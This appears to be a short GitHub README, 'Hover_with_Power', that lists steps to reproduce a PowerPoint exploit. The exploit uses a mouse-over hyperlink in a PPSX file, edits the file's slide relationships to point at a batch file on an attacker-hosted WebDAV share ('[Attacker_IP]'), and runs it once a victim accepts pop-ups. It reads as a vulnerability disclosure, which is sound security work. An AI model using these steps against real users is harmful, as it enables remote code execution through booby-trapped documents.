

"# Hover_with_Power" 

## Steps to reproduce the exploit

1. In Powerpoint it is possible to set an action on a mouse over or mouse click 

2. We can set a file to be executed and this was exploited by attackers in 2017 where a particular powershell command could be run 

3. Since that vulnerability was patched, this one is an extension to it where instead of using "Run Program" action we use "HyperLink To" action and set it to a "Other file"

4. Then we can select a file within the system.

5. Save the Powerpoint file as PPSX or PPS

6. Then open the PPSX file using a ZIP program and change the value in "\ppt\slides_rels\slide1.xml.rels"  of rID which is connected to your mouse over event to "file:///\[Attacker_IP]\webdavfolder\file.bat"

7. Due to the way SMB connections work in Windows 10, SMB connections over Internet are possible even if SMB ports (445/139) are closed  if a webserver supporting WEBDAV extension is hosted by an attacker

8. Now hover over your the text and observe that user just needs to acccept the pop-ups and this allows the program to be executed

9. Combined with social engineering this attack would work completely.

